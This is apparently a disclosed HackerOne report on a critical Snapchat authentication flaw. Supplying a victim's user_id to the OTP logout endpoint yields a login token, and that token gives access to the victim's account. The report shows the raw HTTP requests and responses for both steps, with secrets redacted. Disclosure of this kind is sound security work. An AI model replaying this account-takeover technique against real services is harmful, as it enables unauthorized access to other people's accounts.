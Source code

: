 # Improper Authentication - any user can login as other user with otp/logout & otp/login

## Report Details
- **Report ID**: 921780
- **URL**: https://hackerone.com/reports/921780
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-07-13T02:18:38.031Z
- **Disclosed**: 2021-09-03T09:12:24.380Z

## Reporter
- **Username**: korniltsev
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: snapchat

## Vulnerability Information
'/scauth/otp/droid/logout' request contains user_id parameter. Usually it is equal to current user user_id, but if an attacker passes user_id of victim account he can login as victim.

I will demonstrate the problem on two accounts.
Victim: ███
Attacker: ██████████


-  Attacker perform a usuall login to attacker's personal account.
-  Attacker performs `/scauth/otp/droid/logout` but instead of attacker's user_id, attacker provides victim's user_id
request

```
POST /scauth/otp/droid/logout HTTP/1.1
Host: gcp.api.snapchat.com
Connection: close
Content-Length: 168
X-Snapchat-Client-Auth: ██████
X-Snapchat-UUID: ███
x-snapchat-userid: █████
username: ███
req_token: █████████
timestamp: 1594604280000
Accept: application/json
User-Agent: Snapchat/10.78.1.0 █████
Accept-Language: en-GB;q=1, en;q=0.9
Content-Type: application/json; charset=utf-8
Accept-Encoding: gzip, deflate

{"user_id":"████","device_id":"███████","device_name":"███████"}
```

 response

```
HTTP/1.1 200 OK
date: Mon, 13 Jul 2020 01:39:18 GMT
content-type: application/json;charset=utf-8
vary: Accept-Encoding
x-cloud-trace-context: 4ea579062bff12ec2ef2162a59116f2e
server: API Gateway
cache-control: no-cache, no-store
x-snapchat-notice: Snapchat Private APIs - Unauthorized use is prohibited.
x-snapchat-request-id: █████
x-snapchat-server-latency: 342
strict-transport-security: max-age=31536000; includeSubDomains
Via: 1.1 google, 1.1 google
Alt-Svc: h3-Q050=":443"; ma=2592000,h3-Q046=":443"; ma=2592000,h3-Q043=":443"; ma=2592000,quic=":443"; ma=2592000; v="46,43"
Connection: close
Content-Length: 137

{"status":"SUCCESS","user_id":"█████████","token":"█████","expiry_hint":████}
```
Notice an attacker replaced user_id with victim's user_id and the server responded with victim's user_id and given us otp token. Now let's login with the token.

-  Attacker performs `/scauth/otp/login` request with username equal victim's username, and the token obtained on previous step.

```
POST /scauth/otp/login HTTP/1.1
Host: gcp.api.snapchat.com
Connection: close
Content-Length: 6213
X-Snapchat-Client-Auth: ██████
X-Snapchat-UUID: ████████
User-Agent: Snapchat/10.78.1.0 ██████
Accept: application/json
Accept-Language: en-GB;q=1, en;q=0.9
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Accept-Encoding: gzip, deflate

application_id=com.snap.framework&attestation=████████&device_id=█████████&dsig=█████&dtoken1i=██████&fidelius_client_init=███████&height=1920&max_video_height=1920&max_video_width=1080&password=███████&reactivation_confirmed=false&req_token=████████&screen_height_in=4.527565&screen_height_px=1920&screen_width_in=2.5590599&screen_width_px=1080&timestamp=1594604398438&token=████&username=█████&width=1080
```

response

```
HTTP/1.1 200 OK
date: Mon, 13 Jul 2020 01:40:18 GMT
content-type: application/json;charset=utf-8
vary: Accept-Encoding,Accept-Encoding
x-cloud-trace-context: f88a46255f8542b12008295d77cf1b5c
server: API Gateway
cache-control: no-cache, no-store
x-snap-refresh-token: ████
x-snapchat-notice: Snapchat Private APIs - Unauthorized use is prohibited.
x-snap-access-tokens: ███
x-snapchat-request-id: ████████
strict-transport-security: max-age=31536000; includeSubDomains
Via: 1.1 google, 1.1 google
Alt-Svc: h3-Q050=":443"; ma=2592000,h3-Q046=":443"; ma=2592000,h3-Q043=":443"; ma=2592000,quic=":443"; ma=2592000; v="46,43"
Connection: close
Content-Length: 138867

{"updates_response":{"logged":true,"username":"█████","user_id":"█████",...
```
An attacker successfully performed login as victim.

Victim's user_id can be easily obtained with friends request.

I've attached the following:
- a screencast to showcase the problem.
- burp project ████
- logout+login raw requests exported from burp
- a python script to perform the attack

I've tested this bug only on my personal accounts.
███████
███
█████████

## Impact

An attacker is able to  login as any user.

## Attachments
No attachments
